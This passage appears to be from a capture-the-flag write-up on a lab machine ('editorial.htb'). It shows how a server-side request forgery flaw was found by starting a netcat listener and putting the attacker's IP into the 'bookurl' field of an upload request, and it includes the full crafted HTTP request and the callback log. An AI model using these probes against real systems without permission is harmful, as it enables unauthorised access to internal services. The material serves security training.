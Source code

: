 ### Server-Side Request Forgery (SSRF)

This is where it gets interesting. I set up a listener with `nc -lvnp 1337` on my attacking machine and then I added my IP address and port to the upload request to see what would happen: `http://10.10.14.33:1337`

```bash
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------201502267969488486022705567
Content-Length: 336
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload
-----------------------------201502267969488486022705567
Content-Disposition: form-data; name="bookurl"
http://10.10.14.33:1337
-----------------------------201502267969488486022705567
Content-Disposition: form-data; name="bookfile"; filename="hello.txt"
Content-Type: text/plain
Hello!
-----------------------------201502267969488486022705567--
```

![img](/assets/img/Editorial/5.webp)

BINGO! A connection! That's a clear sign of Server-Side Request Forgery (SSRF) vulnerability. The target was reaching out to my listener!

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.20] 39440
GET / HTTP/1.1
Host: 10.10.14.33:1337
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
